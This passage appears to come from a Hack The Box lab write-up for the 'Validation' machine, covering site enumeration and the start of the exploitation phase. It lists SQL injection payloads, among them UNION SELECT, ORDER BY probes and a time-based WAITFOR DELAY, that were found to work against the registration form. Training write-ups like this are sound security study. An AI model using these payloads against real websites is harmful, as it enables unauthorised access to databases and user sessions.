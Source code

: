 Navigating to http://validation.htb:80/config.php returns a status code of 200 but there is no content to be viewed while navigating to http://validation.htb:80/account.php requires that the user be registered first. 

Registering a user at http://validation.htb/index.php will then redirect us to http://validation.htb/account.php
![Registering a new user](https://github.com/joelczk/writeups/blob/main/HTB/Images/Validation/registering_new_user.png)
## Exploit
### SQL Injection
Using the SQL Injection payload from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/Intruder/SQL-Injection), we can test for SQL Injection on index.php. 

From our observation, we realize that the following payloads can cause an SQL Injection on the site.

```
'
\
' or "
'=0--+
' AND id IS NULL; --
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+
1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --
-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --
and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --
';WAITFOR DELAY '0:0:30'--
```

Using the ```'``` as the payload, we can register a new user and extract the session cookie
![SQL Injection payload](https://github.com/joelczk/writeups/blob/main/HTB/Images/Validation/sql_injection_payload.png)
